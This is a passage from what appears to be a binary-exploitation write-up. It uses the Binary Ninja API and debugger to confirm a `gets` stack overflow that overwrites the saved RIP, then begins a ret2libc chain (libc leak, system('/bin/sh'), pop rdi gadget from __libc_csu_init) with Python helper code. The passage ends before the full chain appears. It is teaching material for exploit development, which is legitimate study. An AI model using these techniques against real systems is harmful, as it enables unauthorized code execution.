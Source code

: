 Binja has a debugger that is a work in progress. I used this to concretely run the binary to confirm we can corrupt rip. 

Because the debugger is unfinished, I run the debugger up to the `gets` then store my payload on the stack and skip the call to simulate  `gets`.  Then catch if there is an memory access violation (when trying to set rip to "BBBBBBBB"). Then double check to make sure that RIP would be correctly overwritten with the "B"s.

```py
from Vector35_debugger import gdb
adapter = gdb.DebugAdapterGdb()
adapter.exec(binary_path)

payload  = b""
payload += b"A"*abs(offset)
payload += b"B"*8

adapter.breakpoint_set(hlil.address)
adapter.go()
adapter.breakpoint_clear(hlil.address)

buff = adapter.reg_read('rdi')
adapter.mem_write(buff,payload)
next_instruction = bv.get_instruction_length(hlil.address) + hlil.address
adapter.reg_write("rip",next_instruction)
reason,_ = adapter.go()
adapter.handle_stop(reason,_)

if reason == gdb.DebugAdapter.STOP_REASON.ACCESS_VIOLATION:
    rip = adapter.mem_read(adapter.reg_read("rsp"),8)
    if rip == b"B"*8:
        print("RIP IS SUCCESSFULLY OVERWRITEN")
```

Running this confirms corruption of the saved rip as well as the correct payload size.

## Exploitation
To exploit, I leaked libc and called `system(/bin/sh)`

I started with a few helper functions to pack and unpack as well as some poorly coded socket functions. In additon to them,  used binja api to make a dictionary of the plt and got.
```py
p64 = lambda x: struct.pack("<Q",x)
u64 = lambda x: struct.unpack("<Q",x.ljust(8,b"\x00"))[0]

def read_info():
    for _ in range(stdout_len):
        io.recv(1)

def readline(end=b"\n"):
    found_newline = False
    line = b""
    while not found_newline:
        r = io.recv(1)
        line+=r
        if r == end:
            found_newline = True
    return line
got = {x.name:x.address for x in bv.get_symbols_of_type(SymbolType.ImportAddressSymbol)}
plt = {x.name:x.address for x in bv.get_symbols_of_type(SymbolType.ImportedFunctionSymbol)}
```
The one gadget we have to search for is a `pop rdi`. Typically, I've noticed thats not found in small binaries, however there is always a `pop r15` in `__libc_csu_init`. Adding 1 to a `pop 15` gets us a `pop rdi`.
